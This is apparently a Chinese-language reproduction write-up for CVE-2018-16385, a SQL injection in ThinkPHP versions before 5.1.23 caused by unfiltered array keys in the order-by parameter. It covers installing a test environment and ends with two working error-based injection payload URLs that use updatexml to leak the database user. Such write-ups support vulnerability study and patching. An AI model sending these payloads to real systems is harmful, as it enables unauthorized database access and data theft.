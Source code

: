 （CVE-2018-16385）Thinkphp 5.1.x SQL注入
========================================

一、漏洞简介
------------

在ThinkPHP5.1.23之前的版本中存在SQL注入漏洞，该漏洞是由于程序在处理order
by
后的参数时，未正确过滤处理数组的key值所造成。如果该参数用户可控，且当传递的数据为数组时，会导致漏洞的产生。

二、漏洞影响
------------

ThinkPHP \< 5.1.23

三、复现过程
------------

### 环境搭建

#### 1.下载安装thinkphp5.1.x

对于thinkphp5.1.x完整版，目前官方没有直接下载的链接。Github上只是放出核心版。该版本需要以Composer或Git方式进行安装。

这里以Composer安装方式说明。

在 Linux 和 Mac OS X 中可以运行如下命令：

    curl -sS https://getcomposer.org/installer | php

    mv composer.phar/usr/local/bin/composer

在 Windows 中，你需要下载并运行 Composer-Setup.exe 。

安装好之后，切换路径到WEB目录下运行：

    composercreate-project topthink/think=5.1.1 tp5.1 --prefer-dist

然后会生成一个名为tp5.1的文件夹。到此think5.1.1下载成功。

#### 2.然后在浏览器中访问

![](resource/(CVE-2018-16385)Thinkphp5.1.23sql注入漏洞/media/rId27.png)

image.png如果出现该页面，则证明安装成功。

#### 3.Demo示例

![](resource/(CVE-2018-16385)Thinkphp5.1.23sql注入漏洞/media/rId29.png)

编写Demo文件，并将文件命名为Test.php，然后放在/tp5.1/application/index/controller/目录下。

#### 4.数据库

与Demo文件匹配，需要创建一个user表，然后设一个字段(id)。

![](resource/(CVE-2018-16385)Thinkphp5.1.23sql注入漏洞/media/rId31.png)

### Payload构造

根据以上分析，构造payload需要满足以下条件：

1.传入的\$order需要是一个数组。

2.\$val 必须也是数组。

3.至少知道数据库表中的一个字段名称，并且传入两个参数。

4.闭合 \` 。

最终Payload构造如下：

    http://0-sec.org/tp5.1/public/index/test/index?order[id`,111)|updatexml(1,concat(0x3a,user()),1)%23][]=1

或

    http://0-sec.org/tp5.1/public/index/test/index?order[id`,'aaa')| updatexml(1,concat(0x3a,user()),1)%23][]=
